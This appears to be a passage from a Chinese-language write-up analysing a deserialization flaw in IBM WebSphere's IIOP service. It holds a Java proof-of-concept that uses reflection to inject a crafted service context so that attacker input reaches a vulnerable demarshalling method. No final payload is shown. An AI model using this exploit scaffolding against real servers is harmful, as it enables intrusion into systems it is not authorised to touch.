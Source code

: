 ```java
import com.ibm.CORBA.iiop.ORB;
import com.ibm.WsnOptimizedNaming._NamingContextStub;
import com.ibm.rmi.Profile;
import com.ibm.rmi.ServiceContext;
import com.ibm.rmi.iiop.Connection;
import com.ibm.rmi.iiop.GIOPImpl;
import com.ibm.ws.naming.jndicos.CNContextImpl;
import com.ibm.ws.naming.util.WsnInitCtx;
import org.omg.CORBA.portable.ObjectImpl;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.Properties;

public class Main {
    public static void main(String[] args) throws Exception {
        Properties env = new Properties();
        env.put(Context.PROVIDER_URL, "iiop://192.168.18.4:2809");
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.ibm.websphere.naming.WsnInitialContextFactory");
        InitialContext initialContext = new InitialContext(env);
        initialContext.list("");
        Field f_defaultInitCtx = initialContext.getClass().getDeclaredField("defaultInitCtx");
        f_defaultInitCtx.setAccessible(true);
        WsnInitCtx defaultInitCtx = (WsnInitCtx) f_defaultInitCtx.get(initialContext);
        Field f_context = defaultInitCtx.getClass().getDeclaredField("_context");
        f_context.setAccessible(true);
        CNContextImpl _context = (CNContextImpl) f_context.get(defaultInitCtx);
        Field f_corbaNC = _context.getClass().getDeclaredField("_corbaNC");
        f_corbaNC.setAccessible(true);
        _NamingContextStub _corbaNC = (_NamingContextStub) f_corbaNC.get(_context);
        Field f__delegate = ObjectImpl.class.getDeclaredField("__delegate");
        f__delegate.setAccessible(true);
        ClientDelegate clientDelegate = (ClientDelegate)f__delegate.get(_corbaNC);
        Field f_ior = clientDelegate.getClass().getSuperclass().getDeclaredField("ior");
        f_ior.setAccessible(true);
        IOR ior = (IOR) f_ior.get(clientDelegate);
        Field f_orb = clientDelegate.getClass().getSuperclass().getDeclaredField("orb");
        f_orb.setAccessible(true);
        ORB orb = (ORB)f_orb.get(clientDelegate);
        GIOPImpl giopimpl = (GIOPImpl) orb.getServerGIOP();
        Method getConnection = giopimpl.getClass().getDeclaredMethod("getConnection", com.ibm.CORBA.iiop.IOR.class, Profile.class, com.ibm.rmi.corba.ClientDelegate.class, String.class);
        getConnection.setAccessible(true);
        Connection connection = (Connection) getConnection.invoke(giopimpl,ior,ior.getProfile(),clientDelegate,"nbxiglk");
        Method setConnectionContexts = connection.getClass().getDeclaredMethod("setConnectionContexts", ArrayList.class);
        setConnectionContexts.setAccessible(true);
        byte[] result = new byte[]{00,00};
        ServiceContext serviceContext = new ServiceContext(0,result);
        ArrayList var4 = new ArrayList();
        var4.add(serviceContext);
        setConnectionContexts.invoke(connection,var4);
        initialContext.list("");
    }
}
```  
这样就能到达`TxInterceptorHelper.demarshalContext`方法了.